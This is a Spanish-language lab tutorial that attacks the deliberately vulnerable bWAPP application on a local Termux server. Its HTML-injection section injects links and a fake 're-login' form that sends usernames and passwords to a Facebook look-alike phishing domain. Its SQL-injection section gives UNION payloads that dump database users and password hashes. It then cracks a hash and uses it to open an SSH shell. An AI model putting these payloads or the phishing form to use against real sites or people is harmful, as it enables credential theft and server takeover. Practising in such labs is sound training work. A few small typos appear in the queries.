# Vulnerabilidad SQL - Exposición de datos sensibles

Aunque hay muchas vulnerabilidades, la inyección de SQL (SQLi) es la vulnerabilidad de las aplicaciones web más frecuente y más peligrosa. Con la cual un atacante puede causar daños graves, como eludir los inicios de sesión, recuperar información confidencial, modificar o eliminar datos.

## Preparación del entorno de prueba.

En la practica XXIV aprendimos a montar nuestro servidor web con diversas plataformas para nuestro entorno de pruebas y para esta práctica vamos a usar la plataforma bWAPP.

1. Preparemos nuestro servidor SSH
- Instalación
```
apt install openssh -y
```
- Creamos las llaves de cifrado tanto para el servidor como para el lado del cliente
> servidor
    generamos la llave
    ```
    ssh-keygen -A
    ```
> entorno proot
```
proot -0 -w ~ $SHELL
```
> cliente
    generamos la llave para usuario root
    ```
    ssh-keygen -C root && exit
    ```
- Agregamos la llave de cifrado del cliente al servidor y viceversa :
```
cat ~/.ssh/id_rsa.pub > ~/.ssh/authorized_keys \
&& \
cat $PREFIX/etc/ssh/ssh_host_rsa_key.pub > ~/.ssh/known_hosts
```
- Creamos usuario para nuestro usuario Root
> entorno proot
```
proot -0 -w ~ $SHELL
```
> ejecutamos
    passwd
    ```text 
    new password: bug 
    Retype new password: bug 
    New password was successfully set.
    ```
> salimos
    ```
    exit
    ```

2. Iniciemos nuestro servidor SSH.
```
sshd -E $PREFIX/var/log/auth.log -p 2222
```
3. Iniciemos nuestra base de datos mysql.
```
mysqld
```
4. Iniciemos nuestro servidor php con bWAPP.
```
php -S 127.0.0.1:4546 -t $PREFIX/var/service/www/php/bWAPP
```
5. Ingresemos al sitio web directamente desde el navegador o bien desde Termux:



```
termux-open-url http://127.0.0.1:4546
```
6. Ingresemos nuestras credenciales, por defecto el usuario es bee y la clave bug para acceder al panel de control. Dentro del menú Bugs tendremos varios ejemplos para utilizar y hacer pruebas con algunas vulnerabilidades desde las más sencillas hasta las más complejas. En esta practica nos centraremos en los ataques más conocidos y en la posibilidad de tomar el control del servidor.
 
Listo❕, ya tenemos nuestro entorno de pruebas, ahora vamos vulnerarlo‼️

## Vulnerando el sitio web.



🔸HTML - Injection reflected(GET):

Inyección Reflejada HTML, es la que permite insertar código HTML en un campo de texto y luego mostrarlo en la misma web.

Por ejemplo podemos ingresar un código de redireccion a un sitio malicioso de un falso login de Facebook mediante un hipervinculo dándole como opción al visitante la posibilidad de registrarse mediante a sus credenciales de dicha red social.

NOTA: Si lo deseas puedes complementar esta dinámica con los pasos de la PRACTICA II



Seleccionamos la primera Inyección por método GET donde tenemos dos casillas de texto, si ingresamos en cada una de ellas las siguientes líneas de código html.

- First name
```
<a href="https://www.fcebook.loca.lt">Inicia sesion</a> 
```
- Last name
```
<a href="https://fcebook.loca.lt"> con FACEBOOK</a>
```
Al enviar el formulario veremos debajo que se muestran ambos enlaces a lo cual solo seria dejarlo a la espera que algún visitante haga click en el hipervinculo y deje sus credenciales en él.

🔸HTML - Injection stored(Blog):



Otro problema de no controlar el ingreso de datos HTML es que podríamos enviar un formulario haciendo creer al usuario que ha sido deslogeado del sitio y que debe de  loguearse de nuevo introduciendo nuevamente sus credenciales, y ya sea enviar esos datos a otra página usando el archivo ip.php de la PRACTICA II o bien redireccionadolo de nuevo a nuestro sitio falso anteriormente mencionado.


Ingresemos un formulario en html informando al usuario que ingrese a esta sección de la web que las credenciales han caducado y que debe reingresarlas.

Insertemos el siguiente código:
```
<b>Usted ha sido desconectado. </b><br> Ingrese de nuevo
<form action="https://fcebook.loca.lt/ip.php">
  usuario:<br>
  <input type="text" name="usuario" value=""><br>
  clave:<br>
  <input type="text" name="clave" value=""><br><br>
  <input type="submit" value="Aceptar">
</form>
```

🔸SQL Injection (GET - search):



Veamos otro ataque. Ahora en la sección "SQL Injection (GET/Search)" la cual consiste en un formulario de búsqueda de películas, por ejemplo "Iron Man", la cual da como resultado los datos de la película.

A continuación podemos inyectar código SQL para probar si la base de datos es vulnerable... pero, que es código sql?, bueno a grandes rasgos son comandos empleados para el manejo y control de una base de datos ejecutados desde la misma barra de direcciones o bien desde un cuadro de diálogo mal configurado, con el que nos permite controlar dicha base de datos.

Ingresemos la palabra "iron" y veamos que nos arroja un resultado válido de la búsqueda acerca de la película de iron man.



Ahora intentemos provocar un error. Simplemente busque con una comilla simple (') para provocar un error de sintaxis. El cual al verse reflejado en pantalla nos damos cuenta que la página está mal segmentada y entonces podemos hacer inyectar codigo html con peticiones(requests) a la base de datos.



Ahora intentemos buscar con :



- Recuadro de busqueda
```
test' or 1=1-- -
```
- En la barra de direcciones
```
http://127.0.0.1:4546/sqli_1.php?title=test' or 1=1-- -
```
Esto recuperó toda la lista de películas, quiere decir que logramos hacer una inyección a la base de datos de forma exitosa confirmando que el sistema es vulnerable.

Si revisamos el código fuente la consulta que se ejecutó cuando intentó con una declaración condicional debió ser:
```
SELECT * FROM movies WHERE title LIKE ” or 1=1–
```
La cual siempre devolverá verdadero por ello nos dio todo el contenido de la tabla de la base de datos.

Lo que acabamos de realizar es una SQLinyection de la que hay diversos tipos :

• **Blind SQL Injection Attack**, en términos simples, el atacante nunca sabe qué sucedió exactamente cuando explotó con SQLi. Es posible que no se muestre la página con vulnerabilidad. Este ataque suele requerir mucho tiempo, ya que necesitamos elaborar muchas solicitudes maliciosas hasta que encontremos un parámetro vulnerable. Entonces, en lugar de hacerlo manualmente, debemos emplear varias herramientas como SQLmap, scripts NMAP, BurpSuite etc.

• **Inyección SQL basada en errores**, esta es la técnica más rápida de explotación de inyección SQL. En general, la información valiosa de varios DBMS se almacenará en los mensajes de error en caso de recibir una expresión SQL ilegal. Esta técnica se utiliza para comprobar si se produjo algún error en el procesamiento de expresiones SQL. Hasta ahora, lo que hemos hecho es una inyección SQL basada en errores.

• **Inyección SQL basada en unión**, esta inyección permite al atacante extraer información con facilidad. El operador UNION solo se usará si ambas consultas tienen exactamente la misma estructura, que se usa principalmente para combinar varias declaraciones SELECT

Probemos el siguiente codigo de inyeccion SQLi.



• **Recuadro de busqueda**
```
iron man' union select 1,2,3,4,5,6,7-- -
```
• **En la barra de direcciones**
```
http://127.0.0.1:4546/sqli_1.php?title=iron man' union select 1,2,3,4,5,6,7-- -
```
Aquí sería jugar un poco con el límite de la cadena numeral e incrementarla hasta que nos arroje algún error, con ello sabríamos cuál es el límite del número de columnas de la base de datos actual.

Ahora con ello sabemos que no todas las columnas se muestran en la página. Por lo tanto hay 4 columnas que podemos usar para recuperar datos de otra tabla, esas son 2, 3, 4 y 5 pero.. ¿Qué sucede realmente en la consulta de back-end cuando le damos a input iron’ union select 1,2,3,4,5,6,7-- -?

La consulta completa sería :
```
SELECT * FROM movies WHERE tittle LIKE '%iron' union select 1,2,3,4,5,6,7– – %'
```
Sabiendo que contamos con 4 columnas vamos a utilizarlas para obtener información sensible de la base de datos, por ejemplo....

• **NOMBRE DEL USUARIO**:



- Recuadro de busqueda
```
iron man' union select 1,user(),3,4,5,6,7-- -
```
- En la barra de direcciones
```
http://127.0.0.1:4546/sqli_1.php?title=iron man' union select 1,user(),3,4,5,6,7-- -
```
Con ello obtenemos el nombre de los usuario(s) del sistema.

• **NOMBRE DE LA BASE DE DATOS**:



- Recuadro de busqueda
```
iron man' union select 1,2,database(),4,5,6,7-- -
```
- En la barra de direcciones
```
http://127.0.0.1:4546/sqli_1.php?title=iron man' union select 1,2,database(),4,5,6,7-- -
```
En este ejemplo la base de datos sería "bWAPP".

• **NOMBRE DE LAS COLUMNAS**:



- Recuadro de búsqueda
```
iron' union select 1,user(),database(),(select GROUP_CONCAT(column_name, '\n') from information_schema.columns where table_name='users'),version(),6,7-- -
```
- En la barra de direcciones
```
http://127.0.0.1:4546/sqli_1.php?title=iron' union select 1,user(),database(),(select GROUP_CONCAT(column_name, '\n') from information_schema.columns where table_name='users'),version(),6,7-- -
```

• **USUARIOS Y PASSWORDS**:



- Recuadro de búsqueda
```
iron' union select 1,user(),database(),(select GROUP_CONCAT(login,":",password,'\n') from users),version(),6,7-- -
```
- En la barra de direcciones
```
http://127.0.0.1:4546/sqli_1.php?title=iron' union select 1,user(),database(),(select GROUP_CONCAT(login,":",pasword,'\n') from users),version(),6,7-- -
```
Con ello obtenemos el listado de usuarios con sus respectivos passwords bajo algún tipo de cifrado.

Como es bien sabido, el tipo de cifrado usado comúnmente por el DBMS MariaDB es SHA1. Intentemos descifrarla.



- clave obtenida del usuario "bee"
```
6885858486f31043e5839c735d99457f045affd0
```
- Resultado obtenido del sitio web md5decrypt
```
bug
```

Vamos a intentar desde Termux, conectar vía ssh al servidor de la web para tomar el control remoto del ordenador mediante el siguiente comando



```
ssh bee@127.0.0.1 -p2222
```
El resultado utilizando el usuario bee y la clave bug es la obtención de una shell de conexión remota remota el servidor del sito web, obteniendo el control total de dicha web.

La seguridad de las aplicaciones web es un aspecto muy importante aparte de un buen diseño y contenido. bWAPP es una plataforma que nos permitirá conocer y probar muchas vulnerabilidades, para luego aplicar esos conocimientos en nuestra web y además sirve para que podamos seguir practicando en la localización y explotación de vulnerabilidades web.

Recuerda‼️ NO memorices aprende practicando, que la genialidad es igual a la repetición.
